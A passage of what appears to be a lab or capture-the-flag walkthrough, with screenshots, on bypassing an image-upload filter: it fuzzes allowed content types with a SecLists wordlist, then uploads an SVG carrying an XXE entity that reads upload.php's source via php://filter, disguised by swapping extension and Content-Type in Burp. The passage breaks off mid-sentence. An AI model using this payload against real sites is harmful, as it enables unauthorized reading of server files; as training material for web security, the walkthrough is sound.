 <img width="1588" height="747" alt="image" src="https://github.com/user-attachments/assets/75de8eff-77cd-46e9-8f6e-7f5c28011f21" />
<img width="1483" height="731" alt="image" src="https://github.com/user-attachments/assets/7cf0f192-61c8-4f06-9609-15d1c7db5a8f" />

<img width="964" height="732" alt="image" src="https://github.com/user-attachments/assets/56adfa31-217c-423a-a3d4-3c049a59472f" />

A new payload wordlist needs to be used: 

```

wget https://github.com/danielmiessler/SecLists/raw/master/Discovery/Web-Content/web-all-content-types.txt

```

```

grep 'image/' web-all-content-types.txt > images-only.txt

```

<img width="1876" height="670" alt="image" src="https://github.com/user-attachments/assets/505c01cb-e638-415e-9bcc-7e03bb9f3bf7" />

<img width="1595" height="470" alt="image" src="https://github.com/user-attachments/assets/368019b3-1845-44de-8b24-5d95d0b66f1f" />

Create an image called shell.svg with the following content to read the source code of the file upload.php:

```
$ cat shell.svg 
<?xml version="1.0" encoding="UTF-8"?> <!DOCTYPE svg [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=upload.php"> ]> <svg>&xxe;</svg>
```
Change the extension from .svg to .jpeg:

```

mv shell.svg shell.jpeg

```

Try to upload the `shell.jpeg` and capture it in Burp again, change the filename to have the .svg extension and Content-Type to be image/svg+xml. 
Forward the request.


<img width="684" height="393" alt="image" src="https://github.com/user-attachments/assets/8c943d36-b24b-4749-8de7-7cbf8abb7e05" />


<img width="1391" height="726" alt="image" src="https://github.com/user-attachments/assets/6d117eeb-56b4-4ee8-9e7b-fec04a5f25fa" />

Check the response:

<img width="1889" height="682" alt="image" src="https://github.com/user-attachments/assets/04d8551c-7ef0-404a-afc7-96a40eb36a65" />

Decode the response. Notice the uploads directory is in `./user_feedback_submissions/` and that the uploaded file names are prepended with the date ymd : 
